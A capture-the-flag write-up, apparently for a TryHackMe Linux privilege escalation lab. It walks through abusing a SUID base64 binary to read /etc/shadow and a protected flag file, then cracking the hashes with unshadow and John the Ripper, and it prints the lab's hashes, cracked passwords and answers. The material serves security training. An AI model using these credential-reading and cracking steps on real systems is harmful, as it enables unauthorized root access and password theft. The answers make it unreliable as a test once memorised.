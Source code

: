 Linux privilege escalation often exploits file permissions, particularly SUID (Set-user ID) and SGID (Set-group ID) bits. 
These allow files to be executed with the privileges of their owner or group, respectively.
#### Finding SUID Binaries
- Use: find / -type f -perm -04000 -ls 2>/dev/null to list SUID/SGID files.
- Check GTFOBins (GTFOBins SUID List) for known exploits.

1. Reading /etc/ shadow
   - If a SUID binary (e.g., nano) allows file editing as root, it can be used to read /etc/ shadow.
   - Extract password hashes and use John the Ripper to crack them.
2. Adding a Root User
   - Generate a password hash using openssl.
   - Add a new user entry in /etc/ passwd with root privileges (/bin/bash).
   - Switch to the new user to gain root access.
These techniques demonstrate how misconfigured SUID files can be exploited for privilege escalation. Now, the challenge is to find another vulnerable binary and apply these skills!
### Q 1: Which user shares the name of a great comic book writer?
To find the users, we can run the ```cat /etc/passwd``` command.

In the bottom 4th ```gerryconway:x:1001:1001::/home/gerryconway:/bin/sh```

The answer must be gerryconway, a famous Marvel Comics writer (among other things, the co-creator of the Punisher!).
### Answer: gerryconway

### Q 2: What is the password of user2?
Before we start, on your local machine's Desktop, create a suid folder with the following files: **passwd.txt** and **shadow.txt**. 
Make sure you have the rockyou.txt file from previous labs in your /wordlists folder.

First we will need to find the password hashes for our **passwd.txt** file. Run the ```base64 /etc/passwd | base64 --decode``` command in terminal and 
copy the last bit Into our **passwd.txt** file. 
```
gerryconway:x:1001:1001::/home/gerryconway:/bin/sh
user2:x:1002:1002::/home/user2:/bin/sh
```

Next we will need to find the password hashes for our shadow.txt file. Run the ```base64 /etc/shadow | base64 --decode``` command in your terminal and copy the last bit into your **shadow.txt** file.

```
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:18796:0:99999:7:::
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
```

Next, we need to unshadow our passwords. enter the ```unshadow passwd.txt shadow.txt > passwords.txt```. Our **passwords.txt** has been created.

Now we can use john to crack this passwords.txt file. Do so by running the following command: ```john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt```

This will start cracking the hashes, And there we found the password!
```
Password1        (user2)     
test123          (gerryconway)     
```
### Answer: Password1
### Q 3: What is the content of the flag3.txt file?
Now look for the flag: ```find / -name flag3.txt 2>/dev/null```. 

Result shows ```/home/ubuntu/flag3.txt```.
If we cat text file, got an error:
```
$ cat /home/ubuntu/flag3.txt
cat: /home/ubuntu/flag3.txt: Permission denied
```
I tried reading it, but I couldn’t!. I guess we need to use the old trick:

```base64 /home/ubuntu/flag3.txt | base64 --decode```

There we go!
### Answer: THM-3847834

